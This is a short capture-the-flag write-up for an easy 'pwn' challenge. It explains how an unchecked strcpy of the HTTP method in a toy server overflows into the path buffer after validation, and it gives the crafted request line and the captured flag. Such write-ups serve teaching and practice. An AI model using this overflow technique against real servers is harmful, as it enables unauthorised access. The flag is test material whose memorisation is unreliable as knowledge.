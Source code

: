 # haatetepe

- Author: fslaktern
- Category: pwn
- Difficulty: easy
- Description:

    The best haatetepe server in Norway comes with speed, small size and modular routing. I've disabled the /flag route for now, though. Check out the server and let me know what you think! I haven't done any benchmarks, but I bet it's faster than NGINX, and it uses less than 1MB memory!

    It's in its (very) early stages, but I'm planning on implementing the rest of the HTTP header specification when I get time. Thanks for stopping by!


## Vulnerability

- Use of insecure `strcpy` to set request method. This can overflow the next variable on the stack, which is `path`.

## Exploit

- Stack overflow in method string sets path to illegal path `/flag` after path validation

```sh
nc server port
```

```text
GETaaaaaaaaaaaaa/flag /morning HTTP/1.1
```

```text
NNS{wh4t_d0_y0u_m34n_http_15n7_s3cur3??}
```
